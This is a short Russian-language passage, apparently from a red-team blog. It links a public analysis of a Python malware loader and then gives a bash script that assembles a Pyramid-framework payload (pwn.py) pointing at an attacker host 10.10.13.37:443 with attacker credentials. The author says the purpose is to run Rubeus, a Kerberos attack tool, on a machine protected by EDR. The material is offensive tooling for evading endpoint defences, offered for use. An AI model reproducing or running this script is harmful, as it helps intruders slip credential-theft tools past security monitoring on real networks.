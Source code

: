 Вот тут вот всякие блютимеры ковыряют малварный лоадер на IronPython, делающий примерно то же самое:

- [Snakes on a Domain: An Analysis of a Python Malware Loader](https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader)

Eще один скрипт на коленке с указанием зависимостей, чтобы собрать темплейты воедино, и можно запускать Rubeus на машине с EDR.

```sh
#!/usr/bin/env bash

cat << EOT > pwn.py
PYRAMID_HOST = '10.10.13.37'
PYRAMID_PORT = '443'
PYRAMID_USERNAME = 'attacker'
PYRAMID_PASSWORD = 'Passw0rd1!'
PYRAMID_TO_UNPACK = ('pythonnet',)
PYRAMID_TO_IMPORT = (
    'cffi',
    'pycparser',)
EOT

cat {cfinder,clr}.py >> pwn.py
```
